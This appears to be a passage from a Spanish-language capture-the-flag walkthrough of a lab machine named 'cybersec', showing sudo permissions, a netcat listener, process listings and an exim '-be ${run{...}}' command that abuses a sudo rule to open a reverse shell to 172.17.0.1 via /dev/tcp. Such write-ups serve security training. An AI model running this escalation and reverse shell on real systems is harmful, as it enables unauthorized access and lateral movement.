Listamos los permisos de usuario:
```bash
carlos@cybersec:~$ sudo -l
Matching Defaults entries for carlos on cybersec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on cybersec:
    (robert) NOPASSWD: /usr/sbin/exim
```

Nos ponemos en escucha:
```bash
nc -nlp 444
```

Ahora nos aprovechamos de esto para ganar acceso como este usaurio:
```bash
# Comando para escalar al usuario: ( robert )
sudo -u robert /usr/sbin/exim -be '${run{/bin/bash -c "setsid bash -i >& /dev/tcp/172.17.0.1/444 0>&1"}}'
```

###### Usuario `[ Robert ]`:
Listando los procesos del sistema:
```bash
ps -faux
```

Tenemos lo siguiente:
```bash
ps -faux

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2580  1340 ?        Ss   Jun20   0:00 /bin/sh -c /root/conf.sh &     tail -f /dev/null
root           7  0.0  0.0   3928  2940 ?        S    Jun20   0:00 /bin/bash /root/conf.sh
root          25  0.0  0.2  38676 31604 ?        Ss   Jun20   0:00  \_ python3 /root/cybersec/app.py
root          30  5.1  0.3 8407024 45568 ?       Sl   Jun20  10:32  |   \_ /usr/bin/python3 /root/cybersec/app.py
root      662670  0.0  0.0   2488  1240 ?        S    00:34   0:00  \_ sleep 15
root           8  0.0  0.0   2520  1308 ?        S    Jun20   0:00 tail -f /dev/null
root          17  0.0  0.0  15440  4656 ?        Ss   Jun20   0:01 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root      662273  0.0  0.0  17608 11340 ?        Ss   00:10   0:00  \_ sshd: carlos [priv]
carlos    662283  0.0  0.0  17868  6800 ?        S    00:10   0:00      \_ sshd: carlos@pts/0
carlos    662284  0.0  0.0   4192  3364 pts/0    Ss+  00:10   0:00          \_ -bash
root          24  0.0  0.0   3604  1956 ?        Ss   Jun20   0:00 /usr/sbin/cron
robert    662427  0.0  0.0   4196  3424 ?        Ss   00:19   0:00 bash -i
robert    662429  0.0  0.0   2520  1604 ?        S    00:19   0:00  \_ script /dev/null -c bash
robert    662430  0.0  0.0   2580  1540 pts/2    Ss   00:19   0:00      \_ sh -c bash
robert    662431  0.0  0.0   4196  3284 pts/2    S    00:19   0:00          \_ bash
robert    662671  0.0  0.0   9320  4880 pts/2    R+   00:34   0:00              \_ ps -faux
```
